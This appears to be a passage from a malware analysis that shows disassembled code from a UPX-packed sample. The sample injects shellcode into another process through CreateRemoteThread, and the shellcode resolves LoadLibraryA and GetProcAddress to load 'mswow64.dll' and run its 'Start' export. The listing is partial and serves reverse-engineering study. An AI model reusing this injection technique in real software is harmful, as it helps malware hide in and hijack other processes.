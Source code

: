 ```Assembly
UPX0:0040139D         push    eax                     ; _DWORD
UPX0:0040139E         mov     [ebp+var_14], 0
UPX0:004013A5         call    kernel32_ReleaseMutex
UPX0:004013AB         lea     ecx, [ebp+var_14]
UPX0:004013AE         push    ecx                     ; _DWORD
UPX0:004013AF         push    0                       ; _DWORD
UPX0:004013B1         push    0                       ; _DWORD
UPX0:004013B3         push    edi                     ; _DWORD
UPX0:004013B4         push    0                       ; _DWORD
UPX0:004013B6         push    0                       ; _DWORD
UPX0:004013B8         push    esi                     ; _DWORD
UPX0:004013B9         call    kernel32_CreateRemoteThread
UPX0:004013BF         test    eax, eax
UPX0:004013C1         jz      short ERROR_4013D3
....
```

The injected shellcode is this:
```Assembly
UPX0:00401040 shellcode_401040:                       ; DATA XREF: inject_dll_4012C0+C7o
....
UPX0:00401065         mov     dword ptr [ebp-30h], 64616F4Ch ; "LoadLibraryA"
UPX0:0040106C         mov     dword ptr [ebp-2Ch], 7262694Ch
UPX0:00401073         mov     dword ptr [ebp-28h], 41797261h
UPX0:0040107A         mov     [ebp-24h], bl
UPX0:0040107D         mov     dword ptr [ebp-40h], 50746547h ; "GetProcAddress"
UPX0:00401084         mov     dword ptr [ebp-3Ch], 41636F72h
UPX0:0040108B         mov     dword ptr [ebp-38h], 65726464h
UPX0:00401092         mov     word ptr [ebp-34h], 7373h
UPX0:00401098         mov     [ebp-32h], bl
UPX0:0040109B         mov     [ebp-10h], ecx
UPX0:0040109E         mov     [ebp-8], ebx
UPX0:004010A1         cmp     edi, ebx
UPX0:004010A3         jz      FAIL_4011AE
....
UPX0:00401179         mov     dword ptr [ebp-30h], 6F77736Dh ; "mswow64.dll"
UPX0:00401180         mov     dword ptr [ebp-2Ch], 2E343677h
UPX0:00401187         mov     dword ptr [ebp-28h], 6C6C64h
UPX0:0040118E         call    eax
UPX0:00401190         cmp     eax, ebx
UPX0:00401192         jz      short FAIL_4011AE
UPX0:00401194         lea     ecx, [ebp-20h]
UPX0:00401197         push    ecx
UPX0:00401198         push    eax
UPX0:00401199         mov     dword ptr [ebp-20h], 72617453h ; "Start"
UPX0:004011A0         mov     word ptr [ebp-1Ch], 74h
UPX0:004011A6         call    esi
UPX0:004011A8         cmp     eax, ebx
UPX0:004011AA         jz      short FAIL_4011AE
UPX0:004011AC         call    eax
UPX0:004011AE
UPX0:004011AE FAIL_4011AE:                            ; CODE XREF: UPX0:004010A3j
UPX0:004011AE                                         ; UPX0:004010C1j ...
UPX0:004011AE         nop
UPX0:004011AF         nop
....
```
